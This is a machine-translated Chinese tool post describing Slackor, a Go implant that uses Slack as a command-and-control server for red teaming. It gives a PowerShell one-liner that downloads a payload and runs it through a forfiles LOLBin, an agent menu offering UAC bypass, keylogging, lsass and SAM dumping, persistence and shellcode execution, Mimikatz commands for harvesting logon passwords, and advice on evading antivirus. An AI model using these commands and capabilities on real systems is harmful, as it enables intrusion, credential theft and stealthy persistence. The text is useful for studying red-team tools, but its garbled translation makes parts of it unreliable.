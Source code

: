 # Slackor:一个使用 Slack 作为命令和控制服务器的 Golang 植入物

> 原文：<https://kalilinuxtutorials.com/slackor-golang-implant-control-server/>

[![Slackor : A Golang Implant That Uses Slack As A Command & Control Server](img/1f2abbbc3a86c964c36a02f963fb2f7d.png "Slackor : A Golang Implant That Uses Slack As A Command & Control Server")](https://1.bp.blogspot.com/-E_h9ZktmRsE/XSLHWXZTsVI/AAAAAAAABOs/aSTUXqB4lccFPrfc5Db2UQ2DUX7dgPQ7wCLcBGAs/s1600/Slackor%2B-%2B2%25281%2529.png)

**Slackor** 是一个 golang 植入体，它使用 Slack 作为命令和控制服务器。该工具是作为概念验证发布的。在创建任何 Slack 应用程序之前，请务必阅读并理解 [Slack 应用程序开发者政策](https://api.slack.com/developer-policy)。

![](img/bb356fd668a39aeb6c3d31c3805231e8.png)

**设置**

**注:服务器是用 Python 3 写的**

为此，您需要:

*   宽松的工作空间
*   [用以下权限注册一个 app](https://api.slack.com/apps) :
    *   **频道:读取**
    *   **频道:历史**
    *   **频道:写**
    *   **文件:写:用户**
    *   **文件:读取**
*   创建一个机器人

此回购包含五个文件:

*   `**install.sh**`安装家属
*   `**setup.py**`创建松弛渠道、数据库和植入的脚本
*   Slackor 服务器，设计用于在 Linux 上运行
*   `**agent.go**`生成的植入物
*   `**requirements.txt**` Python 依赖项(自动安装)

要开始使用:

*   运行`**install.sh**`
*   运行`**setup.py**`
    *   从您的应用程序中提供 *OAuth 访问令牌*和 *Bot 用户 OAuth 访问令牌*

成功运行脚本后，将创建一个文件`agent.exe`。这将是一个 64 位的 Go 二进制包与 UPX。

在 Linux 主机上启动 server.py 之后，在目标 Windows 主机上执行`agent.exe`。

运行“stager”模块来生成一行程序和其他 droppers。

**powershell.exe iwr[URL]-o C:\ Users \ Public \[NAME]。exeforfiles.exe/p C:\ windows \ system32/m svchost.exe/C C:\ Users \ Public \[NAME]；超时 2；del C:\Users\Public\[NAME]。exe**

这将执行 InvokeWebRequest(PS v.3+)来下载有效载荷，使用一个 [LOLBin](https://lolbas-project.github.io/lolbas/Binaries/Forfiles/) 来执行它，然后一旦被杀死就删除自己。这是一个工作示例，但该命令可以调整为使用另一种下载方法或执行方法。

**又读-[冰箱:虚拟机自检，跟踪&调试](https://kalilinuxtutorials.com/icebox-virtual-machine-debugging/)**

**用法**

键入“help”或按[TAB]查看可用命令的列表。键入“help [COMMAND]”查看该命令的描述。

`(**Slackor**)`

*   **帮助**–显示帮助菜单
*   **互动**–与代理互动
*   **列表**–列出所有注册代理
*   **移除**–杀死并移除一个代理
*   **恢复**–向所有代理发送信号，以向服务器重新注册
*   **stager**–生成一行程序来下载并执行植入
*   **退出**–退出程序
*   **wipe files**–删除所有上传的空闲文件

一旦代理签入，您就可以与之交互。使用“交互[代理]进入代理提示。键入“help”或按[TAB]查看可用命令的列表。

`**(Slackor:AGENT)**`

*   **返回**–返回主菜单
*   **beacon**–由代理更改每次登记的时间间隔(默认为 5 秒)
*   **bypassuac**–尝试生成高完整性代理
*   **清理**–移除持续伪像
*   **剪贴板**–检索剪贴板的内容
*   **解密者**–试图解密 Windows Defender
*   **下载**–从代理下载文件到 Slackor 服务器
*   **duplicate**–使代理产生另一个自身调用
*   **get SYSTEM**–生成一个代理作为 NTAUTHORITY/SYSTEM
*   **帮助**–显示帮助菜单
*   **按键扫描**–启动代理上的按键记录程序
*   **杀死**–杀死代理
*   **小型转储**–从 lsass.exe 转储内存并下载
*   **persist**–通过在 ADS 中植入二进制文件来创建持久性
*   **SAM dump**–尝试转储 SAM 文件以进行离线哈希提取
*   **截图**–获取桌面截图并检索
*   **外壳代码**–执行 x64 原始外壳代码
*   **睡眠**–使代理睡眠一次(以秒为单位输入时间)
*   **sysinfo**–显示当前用户、操作系统版本、系统架构和 CPU 内核数量
*   **上传**–从 Slackor 服务器上传文件到代理
*   通过 HTTP/HTTPS 下载任意文件

**OPSEC 注意事项**

除了 TLS 传输加密之外，命令输出和下载的文件也经过 AES 加密。

在执行写入磁盘的任务之前，模块会向您发出警告。执行 shell 命令时，请注意 cmd.exe 将被执行。这可以在主机上监控。以下是几个不会执行 cmd.exe 的 OPSEC 安全命令:

*   **cat**–打印文件内容
*   **CD**–更改目录
*   **查找**–搜索目录文件名
*   **getip**–获取外部 ip 地址(发出 DNS 请求)
*   **主机名**–显示主机名
*   **ifconfig**–显示界面信息
*   **ls**–列出目录内容
*   **mkdir**–创建目录
*   **pwd**–打印当前工作目录
*   **RM**–删除文件
*   **rmdir**–删除目录
*   **whoami/getuid**–打印当前用户

**常见问题解答**

这对红队/圣灵测试安全吗？

是的，在某些条件下。当数据在传输过程中被加密时，代理包含用于解密的密钥。任何获得代理副本的人都可以对其进行逆向工程，并提取 API 密钥和 AES 密钥。任何危及或以其他方式获得工作区访问权限的人都可以检索其中的所有数据。因此，不建议针对多个组织重用基础架构。

**米米卡兹呢？**

该植入物没有内存密码转储功能。如果您需要登录密码，可以尝试以下方法:

**(Slackor: AGENT)小型转储**

这将自动提取密码与 Pypykatz。或者，您可以在 Windows 上使用 Mimikatz。

**>mimikatz.exe
米米卡兹# sekurlsa::Minidump lsassdump . DMP
米米卡兹# sekurlsa::logonPasswords**

**是跨平台吗？**

还没有。它还没有在各种系统上完全测试过。服务器设计为在 Kali Linux 上运行，代理设计为在 Windows 10 上运行。

它的伸缩性如何？

可伸缩性受到 Slack API 的限制。如果有多个代理，请考虑增加未使用的信标的信标间隔。

**它容易受到标准信标分析的攻击吗？**

目前每个信标有 20%的抖动内置，信标时间可以定制。只要没有接收到新的命令，每次代理签入请求和响应数据包的大小将大致相同。

当更好的方法是[y]时，你为什么做[x]?

我尽力了。鼓励减贫战略🙂

**被 AV 抓住了！**

内置的 HTA 舞台是由 [SpookFlare](https://github.com/hlldz/SpookFlare) 基于[demi gaise](https://github.com/nccgroup/demiguise)打造的。如果你想你的滴管不被钩住，你可能想去定制。内置滴管只是让你开始。

**信用:** [Gcat](https://github.com/byt3bl33d3r/gcat) 和[Twitter](https://github.com/PaulSec/twittor)。

[**Download**](https://github.com/Coalfire-Research/Slackor)